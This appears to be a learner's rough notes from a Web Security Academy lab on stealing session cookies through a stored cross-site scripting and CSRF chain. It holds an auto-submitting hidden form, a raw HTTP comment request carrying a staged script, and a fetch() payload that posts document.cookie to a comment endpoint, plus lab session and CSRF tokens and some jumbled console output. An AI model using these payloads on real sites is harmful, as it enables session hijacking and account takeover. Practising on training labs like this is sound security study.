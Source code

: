 try with form:

<html>
    <body>
        <form action="https://0ad4003604d0940bc05d4b7900740082.web-security-academy.net/post/comment" method="POST">
            <input type="hidden" name="csrf" value="GI15EGc1R1RwazbpEXK6orfpXB3ZsYil" />
            <input type="hidden" name="postId" value="8" />
            <input type="hidden" name="comment" value=document.cookie />
            <input type="hidden" name="name" value="blah" />
            <input type="hidden" name="email" value="email@new.com" />
            <input type="hidden" name="website" value="" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

try with fetch:

# stage 1 messege ():

POST /post/comment HTTP/1.1
Host: 0ab800b903ca83ecc0341072005e00d4.web-security-academy.net
Cookie: session=suzGSrRzvVhKcDre3ZRPrARNLpyJdwre
Content-Type: application/x-www-form-urlencoded
Content-Length: 1627
Connection: close

csrf=jYdqhkPTjkIQQvfuOXrix2ZkVqan0hWV&postId=4&comment={URLencodedSTAGE2script}&name=attacker&email=lets%40play.com&website=

# stage 2 script

<script>
    console.log('try:_____working' + document.cookie);
    fetch('https://0a09000703348ef9c1906dbf009b0002.web-security-academy.net/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        headers: {'Content-Type': 'application/x-www-form-urlencoded', 'Cookie': 'session=Dkxb2I5Suc51HqgeR3ZHrnykSWO88zwu'}, 
        body: 'csrf=2EoZLgp2APbiyAYOZgZ1nZmwQNBiNbHs&postId=8&name=lll&email=attacker%40gmail.com&website=&comment=' + document.cookie
});
</script>

KvzezunXTtfZt12s41XvU3i2DKDWoBX8


' + document.cookie + '

original session in burp
Cookie: session=suzGSrRzvVhKcDre3ZRPrARNLpyJdwre

browser console.log:
csrf=jYdqhkPTjkIQQvfuOXrix2ZkVqan0hWV&postId=console.log&name=session=suzGSrRzvVhKcDre3ZRPrARNLpyJdwre


########################
materials:

// There were no quick access to mode and credentials to other fetch answers.
// Data you'll be sending
const data = { funny: "Absolutely not", educational: "yas" }

fetch('https://example.com/api/', {
  method: 'POST', // The method
  mode: 'no-cors', // It can be no-cors, cors, same-origin
  credentials: 'same-origin', // It can be include, same-origin, omit
  headers: {
    'Content-Type': 'application/json', // Your headers
  },
  body: JSON.stringify(data),
}).then(returnedData => {
  // Do whatever with returnedData
}).catch(err => {
  // In case it errors.
})